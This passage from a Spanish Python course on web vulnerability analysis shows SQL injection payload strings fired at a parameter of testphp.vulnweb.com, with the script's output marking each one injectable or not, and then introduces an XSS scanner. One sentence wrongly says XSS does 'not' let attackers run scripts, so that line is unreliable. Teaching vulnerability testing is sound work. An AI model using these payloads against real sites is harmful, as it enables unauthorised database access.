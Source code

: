- Por ejemplo, la siguiente URL devuelve un error relacionado con la base de datos cuanto intentamos utilizar un vector de ataque sobre el parámetro vulnerable:

    - http://testphp.vulnweb.com/listproducts.php?cat=%27s    

- Con Python podríamos contruir un script que lea desde el fichero `sql-attack-vector.txt` posibles vectores de ataque sql y comprobar la salida como resultado de inyectar cadenas específicas.

- El obejtivo del siguiente script es partir de una url donde identificamos el parámetro vulenerable y combinamos la url origial con estos vectores de ataque.

    - [Código de ejemplo](/Unidad_10_Análisis_de_vulnerabilidades_en_aplicaicones_web_con_Python/2-Script_sql_inyeccion.py)

    Resultado:

    ```bash
    Testing http://testphp.vulnweb.com/listproducts.php?cat=" or "a"="a
    Injectable MySQL detected, attack string: " or "a"="a
    Testing http://testphp.vulnweb.com/listproducts.php?cat=" or "x"="x
    Injectable MySQL detected, attack string: " or "x"="x
    Testing http://testphp.vulnweb.com/listproducts.php?cat=" or 0=0 #
    Injectable MySQL detected, attack string: " or 0=0 #
    Testing http://testphp.vulnweb.com/listproducts.php?cat=" or 0=0 --
    Injectable MySQL detected, attack string: " or 0=0 --
    Testing http://testphp.vulnweb.com/listproducts.php?cat=" or 1=1 or ""="
    Payload  " or 1=1 or ""="  not injectable
    Testing http://testphp.vulnweb.com/listproducts.php?cat=" or 1=1--
    Injectable MySQL detected, attack string: " or 1=1--
    Testing http://testphp.vulnweb.com/listproducts.php?cat="' or 1 --'"
    Payload  "' or 1 --'"  not injectable
    Testing http://testphp.vulnweb.com/listproducts.php?cat=") or ("a"="a
    Injectable MySQL detected, attack string: ") or ("a"="a
    Testing http://testphp.vulnweb.com/listproducts.php?cat='
    Injectable MySQL detected, attack string: '
    Testing http://testphp.vulnweb.com/listproducts.php?cat=' (select top 1
    Injectable MySQL detected, attack string: ' (select top 1
    Testing http://testphp.vulnweb.com/listproducts.php?cat=' --
    Injectable MySQL detected, attack string: ' --
    ...
    ``` 

    - Vemos que el parámetro `cat` es vulnerable a inyección SQL, por lo que podemos probar diferentes payloads para intentar inyectar SQL en el parámetro `cat`.

### Script en Python para detectar Cross-Site Scripting (XSS)

- Los errores XSS ocurren cada vez que una aplicación toma datos no confiables y los envía al navegador web sin una validación y codificación apropiada.

- XSS no permite a los atacantes ejecutar una secuencia de comandos en el navegador de la víctima, los cuales pueden obtener las sesiones de usuario o dirigir al usuario hacia un sitio malicioso.

- Para probar si un sitio web es vulnerable a XSS, podríamos usar el siguiente script donde leemos de un archivo `XSS-attack-vector.txt`  que contiene posibles vectores de ataque que tienen como objetivo explorar dicha vulnerabilidad.
